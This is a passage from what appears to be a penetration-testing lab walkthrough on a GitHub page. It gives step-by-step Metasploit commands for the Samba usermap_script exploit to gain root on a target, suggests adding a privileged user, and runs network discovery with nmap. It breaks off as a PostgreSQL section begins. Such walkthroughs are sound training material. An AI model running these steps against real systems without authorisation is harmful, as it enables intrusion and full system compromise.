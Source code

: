 This gives the root user with command execution. You could now make a new user and give it root privileges and a password so you could log into the system, or anything else that you want to do. 

**SMBD**

We once again copy and paste into google to find an exploit from Rapid7:

netbios-ssn Samba smbd 3.X - 4.X exploit
- https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

Use exploit
```sh
msfconsole
```

```sh
use exploit/multi/samba/usermap_script
```

```sh
show targets
```

```sh
set TARGETS <target-id>
```

```sh
show options
```

Show and set targets may make the set RHOSTS option unnecessary. It looks like there's an option for automatic but you'd probably be better off using the set RHOSTS instead.

```sh
set RHOSTS <target-ip>
```

```sh
exploit
```
- I don't have Kali insalled at the moment so i can't check, but i think run also works here as well as typing exploit.

This again gives us access to the root user fully compromising the system. 

Check you have the root user
```sh
whoami
```

Discover the network with nmap
```sh
nmap 10.0.2.0/24
```

**PostgreSQL**

Search metasploit for postgrsql
```sh
msfconsole
```
